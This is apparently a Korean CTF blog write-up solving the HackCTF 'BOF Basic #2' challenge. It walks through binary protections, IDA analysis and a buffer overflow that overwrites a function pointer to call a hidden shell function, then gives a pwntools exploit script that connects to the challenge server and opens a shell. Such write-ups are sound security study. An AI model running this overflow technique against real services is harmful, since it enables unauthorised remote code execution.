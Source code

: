```yaml
---
title:  "[HackCTF] BOF Basic #2 풀이"
categories:
    - Pwnable
tags:
    - ctf.j0n9hyun.xyz
toc: true
published: true
---
```

[HackCTF] BOF Basic #2 풀이

# Environments

|Name|Config|
|:---:|:---|
|CPU|Apple M1|
|Architecture|ARM64|
|OS|Microsoft Windows 11 on ARM|
|Tools|- gdb-peda<br/>- Hex-Rays IDA 7.5|

# Problem
![](/assets/HCTF/bof_basic-1-0.png)
```
Get Input
Print 하아아아아아아아앙
```

요약: `bof_basic2`, `nc ctf.j0n9hyun.xyz 3001` 으로부터 flag 찾기

# File Format
![](/assets/HCTF/bof_basic-1-1.png)

![](/assets/HCTF/bof_basic-1-2.png)

> x86 ELF LSB Executable, Not Stripped, Not UPX Packed

# checksec

|Name|Status|
|:---:|:---|
|CANARY|disabled|
|FORTIFY|disabled
|NX|ENABLED|
|PIE|disabled|
|RELRO|Partial|

- Can overwrite GOT

# Solution
![](/assets/HCTF/bof_basic-1-3.png)

우선 Function 정보를 `info func`를 통해 확인 함. system func call 이 이루어지므로 해당 func을 호출하는 것을 목표로 정함.

![](/assets/HCTF/bof_basic-1-4.png)

다만 main func를 보면 따로 `fgets` 외에 별다른 call 이 없음. `call eax`를 통해 진행되는 것 확인. `system@plt` 가 존재 하므로 어디선가는 확실히 call을 함.

![](/assets/HCTF/bof_basic-1-6.png)

IDA를 통해 정적 분석으로 이동. `void` 형 pointer 발견. 이 후 v5에 `sup` method를 넣음. 또한 메모리의경우 0x8C 를 서로 나눈 것으로 확인. `ebp`로부터 0x80 (128), 0xC (12) 만큼 서로 나눔. `fgets`가 133 까지 입력을 받으므로 `s`를 bof 시켜 `v5`에 들어갈 `sup` func 의 주소를 바꿀 수 있음.

`sup` 메서드는 단순 `puts`를 호출하는 메서드 임을 확인. `func` 목록 중 이제서야 `shell` 이라는 누가봐도 답 혹은 함정 일 것 같은 func 뒤늦게 발견

![](/assets/HCTF/bof_basic-1-7.png)

`system`을 call 하는 것 확인. 이제 `sup`의 주소를 `0x0804849b`로 자연스럽게 넘기면 `system@plt` call 가능.

# Exploit Scenario
```
# p32: 4 Byte packing
payload = "Z" * 128 + p32(0x0804849b)
```

# Exploit Code
```
from pwn import *
context.log_level = "DEBUG" # set log level to debug

p = remote("ctf.j0n9hyun.xyz", 3001)
payload = "Z" * 128 + p32(0x0804849b)

p.sendline(payload) # send payload to p
p.interactive() # Prevent closing shell
```

# Result
![](/assets/HCTF/bof_basic-1-5.png)